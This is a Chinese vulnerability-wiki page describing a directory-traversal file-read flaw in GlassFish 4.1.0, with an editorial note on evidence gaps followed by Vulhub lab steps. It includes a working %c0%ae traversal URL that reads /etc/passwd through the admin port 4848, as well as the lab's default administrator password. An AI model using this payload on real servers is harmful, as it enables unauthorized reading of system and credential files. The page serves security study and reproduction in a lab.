

# GlassFish 任意文件读取漏洞

<!-- vulwiki-editorial:start -->
## 校订与适用边界

- 适用前提：受影响管理端口4848可达；实验Vulhub4.1.0；服务进程可读目标文件
- 证据范围：URL请求明确但机制称%c0%ae先转U+C0AE再ASCII点有误导，应说明旧解码器接受非规范UTF-8路径

### 本次正文校订

- 修正正文中的 ASCCII → ASCII 转录错误，资源路径保持原样。

### 尚未解决的证据缺口

以下限制仍适用于后文历史材料；相关版本、结果或修复结论不能据此视为已验证：

- 影响版本章节为空，源码/补丁与编号缺失
- http介绍与https请求需明确环境TLS配置
- vulhub_default_password是实验值，文件读取是否需要鉴权应明说
- ASCCII拼写错误

本页为文本校订，未执行代码、PoC 或目标请求；原图仅保留引用，未据此确认复现成功。
<!-- vulwiki-editorial:end -->

## 技术正文与历史材料

一、漏洞简介
------------

java语言中会把`%c0%ae`解析为`\uC0AE`，最后转义为ASCII字符的`.`（点）。利用`%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/`来向上跳转，达到目录穿越、任意文件读取的效果。

二、漏洞影响
------------

三、复现过程
------------

编译、运行测试环境

    docker-compose build
    docker-compose up -d

环境运行后，访问`http://www.0-sec.org:8080`和`http://www.0-sec.org:4848`即可查看web页面。其中，8080端口是网站内容，4848端口是GlassFish管理中心。

访问`https://www.0-sec.org:4848/theme/META-INF/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/etc/passwd`，发现已成功读取`/etc/passwd`内容：

ps:本环境超级管理员密码在docker-compose.yml中设置，默认为vulhub\_default\_password，在4848端口利用该密码可以登录管理员账户。

参考链接
--------

> https://vulhub.org/\#/environments/glassfish/4.1.0/
